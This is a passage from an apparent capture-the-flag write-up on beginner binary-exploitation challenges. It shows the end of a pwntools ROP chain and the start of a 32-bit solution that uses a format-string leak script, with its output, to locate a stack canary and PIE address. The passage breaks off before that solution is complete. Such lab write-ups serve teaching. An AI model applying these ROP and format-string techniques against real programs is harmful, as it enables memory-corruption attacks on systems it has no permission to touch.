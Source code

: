 ```python
rop.raw(b"B" * 8)
rop.raw(p64(rop.find_gadget(['ret'])[0]))
rop.raw(p64(rop.find_gadget(['pop rdi','ret'])[0]))
rop.raw(p64(0xdeadbeef))
rop.raw(p64(win))
p.sendline(rop.chain())
p.interactive()
```



#### <a name="pwn8"></a>Intro to PWN 8 - PWN - 413 points

This brings us to the last and supposed to be hardest challenge. I found it a bit tricky but ended up with an unintended solution. The challenge reads:

```
#8. Full Green AND multiple function 32-bit chaining
```

When running the binary it resembles 6 and 7 except now in 32 bit:

```bash
$ ./pwnme
How about creating a leak AND smashing a canary AND chaining several functions?  %5$08x 
 00000000
```

Using the following script I enumerated the stack arguments:

```python
from pwn import *

file = "./pwnme"

for i in range(1,20):
    payload = f"%{i}$08x".encode()
    p = process(file)
    p.sendlineafter(b'?', payload)
    res = p.recv(8).decode()
    print(f"Result for {i}: {res}")
    p.close()
```

When I ran it I identified a likely canary and PIE address:

```bash
$ PWNLIB_SILENT=1 ./findfmt32bit.py
Result for 1: 00000000
Result for 2: 00000000
Result for 3: 565743b5
Result for 4: 00000000
Result for 5: 00000000
Result for 6: f7faa1c0
Result for 7: 30243725
Result for 8: 00786c38
Result for 9: 00000000
Result for 10: f7c183e9
Result for 11: 56604fb8
Result for 12: ffe79bc4
Result for 13: f7f46b80
Result for 14: ff9d7de8
Result for 15: 5658e2c5
Result for 16: f7e1fce0
Result for 17: 00000000
Result for 18: 00000002
Result for 19: d439f400
```
